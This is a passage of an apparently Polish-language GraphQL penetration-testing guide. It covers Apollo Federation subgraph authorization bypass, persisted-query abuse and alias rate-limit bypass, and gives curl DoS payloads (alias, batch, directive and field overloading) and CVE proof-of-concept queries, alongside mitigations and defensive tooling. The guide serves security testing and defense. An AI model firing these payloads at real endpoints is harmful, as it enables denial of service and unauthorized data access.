W **Apollo Federation** jeden publiczny **router** (lub gateway) odbiera zapytania klientów i rozdziela je między kilka wewnętrznych usług GraphQL nazywanych **subgraphs**. Biblioteki subgraphów automatycznie dodają specjalne pola główne, z których powinien korzystać wyłącznie router. `_service` jest zawsze dostępne, a `_entities` pojawia się, gdy subgraph definiuje co najmniej jeden typ encji (typ z `@key`):<sup>[[23]](#references)</sup>

```graphql
type _Service { sdl: String! }
extend type Query {
  _entities(representations: [_Any!]!): [_Entity]!
  _service: _Service!
}
```

- `_service { sdl }` zwraca pełne SDL subgraphu. Apollo twierdzi, że udostępnia tyle samo informacji co standardowe zapytanie introspekcyjne, a specyfikacja stwierdza, że pozostaje dostępne, gdy subgraph „wyłącza introspekcję”.<sup>[[23]](#references)[[24]](#references)</sup>
- `_entities` przyjmuje listę **representations** (obiektów JSON zawierających `__typename` i pola `@key` encji, na przykład `{"__typename":"User","id":"1"}`) i zwraca pasujące obiekty. Router używa go do pobierania pól należących do subgraphu.<sup>[[23]](#references)</sup> Apollo ostrzega, że jeśli to pole jest publicznie dostępne:

> każdy klient może ominąć wewnętrzną logikę resolverów i pobrać dane dowolnej encji, podszywając się pod router.<sup>[[24]](#references)</sup>

Dlaczego staje się to podatnością: router można skonfigurować jako punkt egzekwowania zabezpieczeń (kontrola dostępu, kontrola zapotrzebowania, safelisting operacji). Na przykład GraphOS Router analizuje dyrektywy `@authenticated` i `@requiresScopes` oraz usuwa nieautoryzowane pola przed zaplanowaniem zapytania (`@apollo/gateway` nie obsługuje tych dyrektyw).<sup>[[26]](#references)[[27]](#references)</sup> Jeśli można uzyskać bezpośredni dostęp do subgraphu (publiczna nazwa hosta, ujawniony port, usługa stagingowa lub osiągalna już przez Ciebie sieć wewnętrzna), kontrole routera zostają pominięte. Atakujący może odczytać schemat subgraphu i bezpośrednio odpytać `_entities`; zakres ujawnienia danych zależy od tego, czy subgraph wymusza autoryzację również w swoich resolverach.<sup>[[25]](#references)[[27]](#references)</sup>

Jak testować:

1. Wyślij zapytanie SDL do głównego endpointu i do każdej odkrytej usługi GraphQL (innych subdomen, portów, hostów wyglądających na wewnętrzne):<sup>[[25]](#references)</sup>

```http
POST /graphql HTTP/1.1
Host: subgraph.target.example
Content-Type: application/json

{"query":"query{_service{sdl}}","operationName":null}
```

2. Jeśli SDL zostanie zwrócone, poszukaj typów z `@key` (na przykład `type User @key(fields: "id")`) i zażądaj encji, których nie powinieneś widzieć. Typem zwracanym jest unia `_Entity`, więc użyj fragmentu inline:<sup>[[23]](#references)</sup>

```graphql
query {
  _entities(representations: [{__typename: "User", id: "1"}]) {
    ... on User { id email }
  }
}
```

3. Porównaj te same dane pobrane przez router jako użytkownik nieuwierzytelniony lub z niskimi uprawnieniami. Bezpośrednia odpowiedź SDL potwierdza, że subgraph jest osiągalny; obejście autoryzacji jest wykazane dopiero wtedy, gdy zwracane są chronione dane encji bez kontroli routera lub równoważnych kontroli w subgraphie. Odpowiedzi z subgraphu mogą też zawierać dane śledzenia na poziomie pól w `extensions`, które mogą ujawnić nazwy usług, szczegóły implementacji i czasy wykonania.<sup>[[24]](#references)[[25]](#references)</sup>

Pole `_service` nie jest częścią złożonego schematu supergraphu, więc publiczny endpoint odpowiadający na `_service { sdl }` to najprawdopodobniej bezpośrednio osiągalny subgraph, a nie router.<sup>[[23]](#references)</sup> Rozwiązaniem jest zapewnienie, by subgraphy były osiągalne wyłącznie z routera (lista dozwolonych adresów sieciowych, mTLS), a opcjonalnie filtrowanie `_service` i `_entities` na poziomie subgraphu za pomocą wtyczek serwera lub middleware.<sup>[[25]](#references)[[27]](#references)</sup>

## Persisted queries / APQ **nie stanowią granicy bezpieczeństwa**

Częstym założeniem blue teamu jest to, że **Automatic Persisted Queries (APQ)** uniemożliwiają przesyłanie dowolnych zapytań GraphQL do serwera, ponieważ klienci zwykle wysyłają tylko hash SHA-256. W praktyce APQ to głównie **optymalizacja przepustowości i opóźnień**, a nie allowlista:<sup>[[12]](#references)</sup>

1. wyślij tylko hash i `extensions.persistedQuery`
2. jeśli serwer odpowie `PersistedQueryNotFound`, wyślij ponownie to samo żądanie **z pełnym ciągiem `query`**
3. wiele wdrożeń w stylu Apollo wykona je i zapisze tę operację w cache na potrzeby kolejnych żądań

Oznacza to, że jeśli cel ma włączone tylko APQ, często nadal możesz przy pierwszym żądaniu przesłać **nowe zapytania introspekcyjne, aliasy, głębokie fragmenty lub mutacje brute-force**. Prawdziwa allowlista zwykle wymaga **wstępnie zarejestrowanej listy persisted query** i odrzucania surowych ciągów operacji.

```json
{
  "operationName": "probe",
  "variables": null,
  "extensions": {
    "persistedQuery": {
      "version": 1,
      "sha256Hash": "<unknown-hash>"
    }
  }
}
```

Jeśli odpowiedź zawiera `PersistedQueryNotFound`, natychmiast ponów próbę, dodając pełne pole `query`. Pamiętaj też, że niektóre klienty używają **GET** w żądaniach APQ zawierających tylko hash i dopiero po jego niepowodzeniu przechodzą na pełne zapytanie. Reguły WAF lub cache oparte na ścieżce z samym hashem mogą więc nie wykryć niebezpiecznego żądania.

## Omijanie limitów liczby żądań za pomocą aliasów w GraphQL

W GraphQL aliasy to zaawansowana funkcja, która pozwala **jawnie nazywać właściwości** podczas wysyłania żądania do API. Jest szczególnie przydatna do pobierania **wielu instancji tego samego typu** obiektu w ramach jednego żądania. Aliasów można użyć, aby obejść ograniczenie, które uniemożliwia obiektom GraphQL posiadanie wielu właściwości o tej samej nazwie.

Szczegółowe informacje o aliasach GraphQL znajdziesz w tym materiale: [Aliases](https://portswigger.net/web-security/graphql/what-is-graphql#aliases).

Głównym celem aliasów jest ograniczenie liczby wywołań API, ale odkryto też niezamierzony sposób ich wykorzystania: mogą posłużyć do przeprowadzania ataków brute force na endpoint GraphQL. Jest to możliwe, ponieważ niektóre endpointy chronią mechanizmy ograniczające liczbę żądań, zaprojektowane w celu zapobiegania atakom brute force przez limitowanie **liczby żądań HTTP**. Mechanizmy te mogą jednak nie uwzględniać liczby operacji w każdym żądaniu. Ponieważ aliasy pozwalają umieścić wiele zapytań w jednym żądaniu HTTP, mogą posłużyć do obejścia takich limitów.

Poniższy przykład pokazuje, jak za pomocą zapytań z aliasami sprawdzić poprawność kodów rabatowych sklepu. Ta metoda może ominąć limity liczby żądań, ponieważ łączy kilka zapytań w jednym żądaniu HTTP, umożliwiając potencjalnie jednoczesne sprawdzenie wielu kodów rabatowych.

```bash
# Example of a request utilizing aliased queries to check for valid discount codes
query isValidDiscount($code: Int) {
    isvalidDiscount(code:$code){
        valid
    }
    isValidDiscount2:isValidDiscount(code:$code){
        valid
    }
    isValidDiscount3:isValidDiscount(code:$code){
        valid
    }
}
```

## DoS w GraphQL

Inne testy DoS na poziomie aplikacji (rozmiary stron, płatne akcje, kolizje hashy) opisano w sekcji [DoS na poziomie aplikacji](application-layer-dos.md).

### Przeciążanie aliasami

**Przeciążanie aliasami** to podatność GraphQL, w której atakujący przeciążają zapytanie wieloma aliasami tego samego pola, powodując wielokrotne wykonanie tego pola przez resolver backendu. Może to przeciążyć zasoby serwera i doprowadzić do **odmowy usługi (DoS)**. Na przykład w poniższym zapytaniu to samo pole (`expensiveField`) jest żądane 1 000 razy przy użyciu aliasów, co zmusza backend do obliczenia go 1 000 razy i może doprowadzić do wyczerpania zasobów procesora lub pamięci:

```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "Content-Type: application/json" \
    -d '{"query": "{ alias0:__typename \nalias1:__typename \nalias2:__typename \nalias3:__typename \nalias4:__typename \nalias5:__typename \nalias6:__typename \nalias7:__typename \nalias8:__typename \nalias9:__typename \nalias10:__typename \nalias11:__typename \nalias12:__typename \nalias13:__typename \nalias14:__typename \nalias15:__typename \nalias16:__typename \nalias17:__typename \nalias18:__typename \nalias19:__typename \nalias20:__typename \nalias21:__typename \nalias22:__typename \nalias23:__typename \nalias24:__typename \nalias25:__typename \nalias26:__typename \nalias27:__typename \nalias28:__typename \nalias29:__typename \nalias30:__typename \nalias31:__typename \nalias32:__typename \nalias33:__typename \nalias34:__typename \nalias35:__typename \nalias36:__typename \nalias37:__typename \nalias38:__typename \nalias39:__typename \nalias40:__typename \nalias41:__typename \nalias42:__typename \nalias43:__typename \nalias44:__typename \nalias45:__typename \nalias46:__typename \nalias47:__typename \nalias48:__typename \nalias49:__typename \nalias50:__typename \nalias51:__typename \nalias52:__typename \nalias53:__typename \nalias54:__typename \nalias55:__typename \nalias56:__typename \nalias57:__typename \nalias58:__typename \nalias59:__typename \nalias60:__typename \nalias61:__typename \nalias62:__typename \nalias63:__typename \nalias64:__typename \nalias65:__typename \nalias66:__typename \nalias67:__typename \nalias68:__typename \nalias69:__typename \nalias70:__typename \nalias71:__typename \nalias72:__typename \nalias73:__typename \nalias74:__typename \nalias75:__typename \nalias76:__typename \nalias77:__typename \nalias78:__typename \nalias79:__typename \nalias80:__typename \nalias81:__typename \nalias82:__typename \nalias83:__typename \nalias84:__typename \nalias85:__typename \nalias86:__typename \nalias87:__typename \nalias88:__typename \nalias89:__typename \nalias90:__typename \nalias91:__typename \nalias92:__typename \nalias93:__typename \nalias94:__typename \nalias95:__typename \nalias96:__typename \nalias97:__typename \nalias98:__typename \nalias99:__typename \nalias100:__typename \n }"}' \
    'https://example.com/graphql'
```

Aby temu zapobiec, wprowadź limity liczby aliasów, analizę złożoności zapytań lub ograniczanie liczby żądań, aby zapobiec nadużywaniu zasobów.

### **Array-based Query Batching**

**Array-based Query Batching** to podatność, w której API GraphQL umożliwia grupowanie wielu zapytań w jednym żądaniu, co pozwala atakującemu wysłać dużą liczbę zapytań jednocześnie. Może to przeciążyć backend, ponieważ wszystkie zgrupowane zapytania są wykonywane równolegle, zużywając nadmierne ilości zasobów (CPU, pamięci, połączeń z bazą danych) i potencjalnie prowadząc do **Denial of Service (DoS)**. Jeśli liczba zapytań w jednej grupie nie jest ograniczona, atakujący może wykorzystać tę podatność, aby obniżyć dostępność usługi.

```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '[{"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}]' \
'https://example.com/graphql'
```

W tym przykładzie 10 różnych zapytań jest łączonych w jedno żądanie, co zmusza serwer do jednoczesnego wykonania ich wszystkich. Jeśli atak zostanie przeprowadzony z większym rozmiarem batcha lub przy użyciu zapytań wymagających dużych zasobów obliczeniowych, może przeciążyć serwer.

### **Directive Overloading Vulnerability**

**Directive Overloading** występuje, gdy serwer GraphQL zezwala na zapytania zawierające nadmierną liczbę zduplikowanych dyrektyw. Może to przeciążyć parser i executor serwera, zwłaszcza jeśli serwer wielokrotnie przetwarza tę samą logikę dyrektywy. Bez odpowiedniej walidacji lub limitów atakujący może to wykorzystać, tworząc zapytanie z licznymi zduplikowanymi dyrektywami, aby spowodować wysokie zużycie zasobów obliczeniowych lub pamięci, co prowadzi do **Denial of Service (DoS)**.

```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @aa@aa@aa@aa@aa@aa@aa@aa@aa@aa }", "operationName": "cop"}' \
'https://example.com/graphql'
```

Zauważ, że w poprzednim przykładzie `@aa` jest niestandardową dyrektywą, która **może nie być zadeklarowana**. Często spotykaną dyrektywą, która zwykle istnieje, jest **`@include`**:

```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @include(if: true) @include(if: true) @include(if: true) @include(if: true) @include(if: true) }", "operationName": "cop"}' \
'https://example.com/graphql'
```

Możesz też wysłać zapytanie introspekcyjne, aby odkryć wszystkie zadeklarowane dyrektywy:

```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "{ __schema { directives { name locations args { name type { name kind ofType { name } } } } } }"}' \
'https://example.com/graphql'
```

A następnie **użyj kilku własnych**.

### **Podatność Field Duplication**

**Field Duplication** to podatność, w której serwer GraphQL zezwala na nadmierne powtarzanie tego samego pola w zapytaniach. Zmusza to serwer do wielokrotnego rozwiązywania tego pola, co zużywa znaczne zasoby (CPU, pamięć i wywołania bazy danych). Atakujący może utworzyć zapytania zawierające setki lub tysiące powtórzonych pól, powodując duże obciążenie i potencjalnie prowadząc do **odmowy usługi (DoS)**.

```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" -H "Content-Type: application/json" \
-d '{"query": "query cop { __typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n} ", "operationName": "cop"}' \
'https://example.com/graphql'
```

## Ostatnie podatności (2023-2025)

> Ekosystem GraphQL rozwija się bardzo szybko; w ciągu ostatnich dwóch lat ujawniono kilka krytycznych problemów w najczęściej używanych bibliotekach serwerowych. Dlatego po znalezieniu endpointu GraphQL warto zidentyfikować silnik (zobacz **graphw00f**) i sprawdzić, czy jego działająca wersja jest podatna na poniższe luki.

### CVE-2024-47614 – DoS przez przeciążenie dyrektywami w `async-graphql` (Rust)
* Podatne wersje: async-graphql < **7.0.10** (Rust)
* Przyczyna: brak limitu **zduplikowanych dyrektyw** (np. tysięcy `@include`), które są rozwijane do wykładniczej liczby węzłów wykonania.
* Skutek: pojedyncze żądanie HTTP może wyczerpać zasoby CPU/RAM i spowodować awarię usługi.
* Naprawa/ograniczenie ryzyka: zaktualizuj do wersji ≥ 7.0.10 lub wywołaj `SchemaBuilder.limit_directives()`; możesz też filtrować żądania regułą WAF, taką jak `"@include.*@include.*@include"`.<sup>[[7]](#references)</sup>

```graphql
# PoC – repeat @include X times
query overload {
  __typename @include(if:true) @include(if:true) @include(if:true)
}
```

### CVE-2024-40094 – obejście limitów głębokości/złożoności ENF w `graphql-java`
* Dotyczy: graphql-java < 19.11, 20.0-20.8, 21.0-21.4
* Przyczyna: **ExecutableNormalizedFields** nie były uwzględniane przez instrumentację `MaxQueryDepth` / `MaxQueryComplexity`. W związku z tym rekurencyjne fragmenty omijały wszystkie limity.
* Skutek: nieuwierzytelniony DoS na stosach Java osadzających graphql-java (Spring Boot, Netflix DGS, produkty Atlassian…).

```graphql
fragment A on Query { ...B }
fragment B on Query { ...A }
query { ...A }
```

### CVE-2023-23684 – łańcuch SSRF do RCE w WPGraphQL
* Dotyczy: WPGraphQL ≤ 1.14.5 (wtyczka WordPress).
* Przyczyna: mutacja `createMediaItem` akceptowała kontrolowane przez atakującego adresy URL w **`filePath`**, umożliwiając dostęp do sieci wewnętrznej i zapis plików.
* Skutek: uwierzytelnieni użytkownicy z rolą Editor/Author mogli uzyskać dostęp do endpointów metadanych lub zapisywać pliki PHP, aby zdalnie wykonać kod.

### CVE-2025-32031 – DoS przez rozrost fragmentów w query plannerze Apollo Gateway
* Dotyczy: `@apollo/gateway` < **2.10.1**
* Przyczyna: **głęboko zagnieżdżone i intensywnie ponownie wykorzystywane nazwane fragmenty** mogą omijać wewnętrzne optymalizacje query plannera, przez co gateway poświęca większość czasu procesora na **planowanie** żądania, zanim dotrze ono do subgrafów.
* Skutek: niewielka liczba nieuwierzytelnionych żądań może unieruchomić **federated gateway**, nawet jeśli kontrole głębokości/złożoności resolverów w subgrafach działają poprawnie.
* Wskazówka dotycząca testowania: w testach black-box zwracaj uwagę na wysokie opóźnienia / skoki użycia CPU przez gateway przy niemal zerowym ruchu do subgrafów. Wąskim gardłem jest planner, a nie resolver.

```graphql
fragment F2 on Query { __typename }
fragment F1 on Query { ...F2 ...F2 }
fragment F0 on Query { ...F1 ...F1 }
query { ...F0 }
```

---

## Nadużycie incremental delivery: `@defer` / `@stream`
Od 2023 roku większość głównych serwerów (Apollo 4, GraphQL-Java 20+, HotChocolate 13) implementuje dyrektywy **incremental delivery** zdefiniowane przez GraphQL-over-HTTP WG. Każdy odroczony fragment jest wysyłany jako **osobny chunk**, więc całkowity rozmiar odpowiedzi wynosi *N + 1* (koperta + fragmenty). Zapytanie zawierające tysiące drobnych odroczonych pól generuje więc dużą odpowiedź, a napastnikowi wystarczy jedno żądanie — to klasyczne **amplification DoS** i sposób na ominięcie reguł WAF ograniczających rozmiar treści, które analizują tylko pierwszy chunk. Sami członkowie WG zwrócili uwagę na to ryzyko.

Przykładowy payload generujący 2 000 fragmentów:

```graphql
query abuse {
% for i in range(0,2000):
  f{{i}}: __typename @defer
% endfor
}
```

Mitigacja: wyłącz `@defer/@stream` w środowisku produkcyjnym lub ustaw limity `max_patches`, łącznego `max_bytes` i czasu wykonania. Biblioteki takie jak **graphql-armor** (zob. poniżej) już domyślnie stosują rozsądne limity.

---

## Middleware ochronne (2024+)

| Projekt | Uwagi |
|---|---|
| **graphql-armor** | Middleware walidacyjne dla Node/TypeScript, opublikowane przez Escape Tech. Zapewnia gotowe do użycia limity głębokości zapytań, liczby aliasów/pól/dyrektyw, tokenów i kosztu; jest kompatybilne m.in. z Apollo Server, GraphQL Yoga/Envelop i Helix. |

Szybki start:

```ts
import { protect } from '@escape.tech/graphql-armor';
import { applyMiddleware } from 'graphql-middleware';

const protectedSchema = applyMiddleware(schema, ...protect());
```

`graphql-armor` będzie teraz blokować zapytania o nadmiernej głębokości i złożoności oraz zawierające zbyt wiele dyrektyw, chroniąc przed powyższymi CVE.<sup>[[8]](#references)</sup>

---

## Narzędzia

### Skanery podatności

- [https://github.com/dolevf/graphql-cop](https://github.com/dolevf/graphql-cop): Testuje typowe błędne konfiguracje endpointów graphql
- [https://github.com/assetnote/batchql](https://github.com/assetnote/batchql): Skrypt do audytu bezpieczeństwa GraphQL, skupiający się na wykonywaniu wsadowych zapytań i mutacji GraphQL.
- [https://github.com/dolevf/graphw00f](https://github.com/dolevf/graphw00f): Umożliwia fingerprinting używanego graphql
- [https://github.com/gsmith257-cyber/GraphCrawler](https://github.com/gsmith257-cyber/GraphCrawler): Zestaw narzędzi do pobierania schematów i wyszukiwania poufnych danych, testowania autoryzacji, brute force schematów oraz znajdowania ścieżek do danego typu.
- [https://blog.doyensec.com/2020/03/26/graphql-scanner.html](https://blog.doyensec.com/2020/03/26/graphql-scanner.html): Może działać samodzielnie lub jako [rozszerzenie Burp](https://github.com/doyensec/inql).
- [https://github.com/swisskyrepo/GraphQLmap](https://github.com/swisskyrepo/GraphQLmap): Może też działać jako klient CLI do automatyzacji ataków: `python3 graphqlmap.py -u http://example.com/graphql --inject`
- [https://gitlab.com/dee-see/graphql-path-enum](https://gitlab.com/dee-see/graphql-path-enum): Narzędzie wyświetlające różne sposoby **dotarcia do danego typu w schemacie GraphQL**.
- [https://github.com/doyensec/GQLSpection](https://github.com/doyensec/GQLSpection): Następca samodzielnych i CLI-owych trybów InQL
- [https://github.com/doyensec/inql](https://github.com/doyensec/inql): Rozszerzenie Burp lub skrypt Pythona do zaawansowanego testowania GraphQL. Komponent _**Scanner**_ to rdzeń InQL v5.0, który pozwala analizować endpoint GraphQL lub lokalny plik schematu introspekcji. Automatycznie generuje wszystkie możliwe zapytania i mutacje, porządkując je w ustrukturyzowanym widoku do analizy. Komponent _**Attacker**_ umożliwia przeprowadzanie wsadowych ataków GraphQL, co może pomóc w omijaniu źle zaimplementowanych limitów liczby żądań: `python3 inql.py -t http://example.com/graphql -o output.json`
- [https://github.com/nikitastupin/clairvoyance](https://github.com/nikitastupin/clairvoyance): Próbuje pobrać schemat nawet przy wyłączonej introspekcji, korzystając z baz danych GraphQL, które podpowiadają nazwy mutacji i parametrów.

### Skrypty do wykorzystywania typowych podatności

- [https://github.com/reycotallo98/pentestScripts/tree/main/GraphQLDoS](https://github.com/reycotallo98/pentestScripts/tree/main/GraphQLDoS): Zbiór skryptów do wykorzystywania podatności typu denial of service w podatnych środowiskach graphql.

### Klienci

- [https://github.com/graphql/graphiql](https://github.com/graphql/graphiql): Klient GUI
- [https://altair.sirmuel.design/](https://altair.sirmuel.design/): Klient GUI

### Testy automatyczne

{{#ref}}
https://graphql-dashboard.herokuapp.com/
{{#endref}}

- Film wyjaśniający AutoGraphQL: [https://www.youtube.com/watch?v=JJmufWfVvyU](https://www.youtube.com/watch?v=JJmufWfVvyU)

## References

- [1] [Praktyczne wektory ataków GraphQL](https://jondow.eu/practical-graphql-attack-vectors/)
- [2] [GraphQL — typowe podatności i sposoby ich wykorzystywania](https://medium.com/@the.bilal.rizwan/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696)
- [3] [Wszystko o bezpieczeństwie GraphQL, modelach GraphQL i REST API](https://medium.com/@apkash8/graphql-vs-rest-api-model-common-security-test-cases-for-graphql-endpoints-5b723b1468b4)
- [4] [Hacking API: GraphQL](http://ghostlulz.com/api-hacking-graphql/)
- [5] [GraphQL Injection - PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md)
- [6] [Podatności API GraphQL - PortSwigger](https://portswigger.net/web-security/graphql)
- [7] [Przeciążenie dyrektywy async-graphql prowadzące do Denial of Service (GHSA-5gc2-7c65-8fq8 / CVE-2024-47614)](https://github.com/advisories/GHSA-5gc2-7c65-8fq8)
- [8] [GraphQL Armor](https://github.com/escape-tech/graphql-armor)
- [9] [InQL v6.1.0 właśnie zadebiutował z nowymi funkcjami i upominkami dla współtwórców!](https://blog.doyensec.com/2025/12/02/inql-v610.html)
- [10] [Macierz zagrożeń GraphQL](https://github.com/nicholasaleks/graphql-threat-matrix)
- [11] [Przesyłanie plików - GraphQL](https://graphql.org/learn/file-uploads/)
- [12] [Persisted Queries - dokumentacja Apollo GraphOS](https://www.apollographql.com/docs/graphos/platform/security/persisted-queries)
- [13] [Zhakowaliśmy Google A.I. za 50 000 $](https://www.landh.tech/blog/20240304-google-hack-50000/)
- [14] [Atak z użyciem batching w GraphQL](https://lab.wallarm.com/graphql-batching-attack/)
- [15] [Testowanie bezpieczeństwa GraphQL bez schematu](https://blog.forcesunseen.com/graphql-security-testing-without-a-schema)
- [16] [NahamCon2024: GraphQL to nowy PHP | @0xlupin](https://www.youtube.com/watch?v=tIo_t5uUK50)
- [17] [Ten jeden problem z GraphQL, który wciąż przeoczasz](https://blog.doyensec.com/2021/05/20/graphql-csrf.html)
- [18] [Podatność umożliwiająca obejście uwierzytelniania zapytań GraphQL](https://s1n1st3r.gitbook.io/theb10g/graphql-query-authentication-bypass-vuln)
- [19] [Zgłoszenie HackerOne #792927 - leak poufnych danych konta za pomocą zmiennych zapytania GraphQL](https://hackerone.com/reports/792927)
- [20] [graphql.org - GraphQL: język zapytań dla API](https://graphql.org/learn/introspection)
- [21] [Specyfikacja GraphQL over HTTP](https://graphql.github.io/graphql-over-http/draft/)
- [22] [Wyjaśnienie plików cookie SameSite](https://web.dev/articles/samesite-cookies-explained)
- [23] [Specyfikacja Apollo Federation Subgraph](https://www.apollographql.com/docs/graphos/schema-design/federated-schemas/reference/subgraph-spec)
- [24] [Dokumentacja Apollo GraphQL - bezpieczeństwo Graph](https://www.apollographql.com/docs/graphos/platform/security/overview)
- [25] [RunSybil - poza introspekcją: powierzchnia ataku Apollo Federation ukryta na widoku](https://www.runsybil.com/blog/graphql-apollo-federation-attack-hidden-in-plain-sight)
- [26] [Dokumentacja Apollo GraphQL - autoryzacja w GraphOS Router](https://www.apollographql.com/docs/graphos/routing/security/authorization)
- [27] [Blog Apollo GraphQL - zabezpieczanie subgraphów Apollo Federation: kontekst i najlepsze praktyki](https://www.apollographql.com/blog/securing-apollo-federation-subgraphs-context-and-best-practices)
- [28] [Globalna identyfikacja obiektów - GraphQL](https://graphql.org/learn/global-object-identification/)
- [29] [Można ominąć zabezpieczenia operacji zapytań GraphQL - advisory API Platform](https://github.com/advisories/GHSA-cg3c-245w-728m)
- [30] [Kontrole bezpieczeństwa graphql-cop](https://github.com/dolevf/graphql-cop)
{{#include ../banners/hacktricks-training.md}}
